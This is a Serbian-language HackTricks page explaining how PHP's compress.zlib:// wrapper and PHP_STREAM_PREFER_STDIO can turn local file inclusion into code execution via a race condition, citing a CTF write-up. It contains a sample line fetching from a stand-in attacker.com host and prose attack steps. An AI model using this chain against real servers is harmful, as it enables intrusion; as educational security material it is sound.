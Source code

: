 # LFI2RCE Via compress.zlib + PHP\_STREAM\_PREFER\_STUDIO + Path Disclosure

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

### `compress.zlib://` i `PHP_STREAM_PREFER_STDIO`

Fajl otvoren koristeći protokol `compress.zlib://` sa zastavicom `PHP_STREAM_PREFER_STDIO` može nastaviti sa pisanjem podataka koji stižu kasnije na isti fajl.

Ovo znači da poziv kao što je:

```php
file_get_contents("compress.zlib://http://attacker.com/file")
```

Poslaćemo zahtev za http://attacker.com/file, a zatim server može odgovoriti na zahtev sa validnim HTTP odgovorom, zadržati otvorenu vezu i kasnije poslati dodatne podatke koji će takođe biti upisani u datoteku.

Možete videti tu informaciju u delu koda php-src u main/streams/cast.c:

```c
/* Use a tmpfile and copy the old streams contents into it */

if (flags & PHP_STREAM_PREFER_STDIO) {
*newstream = php_stream_fopen_tmpfile();
} else {
*newstream = php_stream_temp_new();
}
```

### Trkačka uslov za RCE

[**Ovaj CTF**](https://balsn.tw/ctf\_writeup/20191228-hxp36c3ctf/#includer) je rešen koristeći prethodnu prevaru.

Napadač će naterati **žrtveni server da otvori vezu i čita fajl sa servera napadača** koristeći protokol **`compress.zlib`**.

**Dok** ova **veza** postoji, napadač će **izvući putanju** do privremenog fajla koji je kreiran (koju je otkrio server).

**Dok** je **veza** još uvek otvorena, napadač će **iskoristiti LFI učitavajući privremeni fajl** koji kontroliše.

Međutim, postoji provera na veb serveru koja **sprečava učitavanje fajlova koji sadrže `<?`**. Zbog toga će napadač iskoristiti **trkačku uslov**. U vezi koja je još uvek otvorena, **napadač** će **poslati PHP payload NAKON** što je **veb server** proverio da li fajl sadrži zabranjene karaktere, ali **PRE nego što učita njegov sadržaj**.

Za više informacija pogledajte opis trkačke uslova i CTF na [https://balsn.tw/ctf\_writeup/20191228-hxp36c3ctf/#includer](https://balsn.tw/ctf\_writeup/20191228-hxp36c3ctf/#includer)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** Pogledajte [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
